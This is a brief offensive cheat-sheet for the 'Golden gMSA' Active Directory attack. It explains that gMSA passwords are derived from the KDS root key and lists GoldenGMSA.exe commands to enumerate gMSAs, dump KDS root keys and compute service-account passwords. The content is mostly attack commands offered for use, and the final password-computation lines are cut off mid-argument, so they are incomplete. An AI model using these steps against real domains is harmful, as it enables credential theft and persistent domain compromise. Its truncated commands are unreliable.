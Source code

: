 # Golden GMSA

### One notable difference between a Golden Ticket attack and the Golden GMSA attack is that they no way of rotating the KDS root key secret. Therefore, if a KDS root key is compromised, there is no way to protect the gMSAs associated with it.

## WARNING!: You can't "force reset" a gMSA password, because a gMSA's password never changes. The password is derived from the KDS root key and ManagedPasswordIntervalInDays , so every Domain Controller can at any time compute what the password is, what it used to be, and what it will be at any point in the future.

## Tool: GoldenGMSA https://github.com/Semperis/GoldenGMSA

#### 1) Enumerate all gMSAs

 - GoldenGMSA.exe gmsainfo

#### 2) Query for a specific gMSA

 - GoldenGMSA.exe gmsainfo --sid S-1-5-21-1437000690-1664695696-1586295871-1112

#### 3) Dump all KDS Root Keys

 - GoldenGMSA.exe kdsinfo

#### 4) Dump a specific KDS Root Key

 - GoldenGMSA.exe kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb

#### 5) Compute gMSA password

### --sid <gMSA SID>: SID of the gMSA (required)

### --kdskey <Base64-encoded blob>: Base64 encoded KDS Root Key

### --pwdid <Base64-encoded blob>: Base64 of msds-ManagedPasswordID attribute value

 - GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 # requires

 - GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey

 - GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey
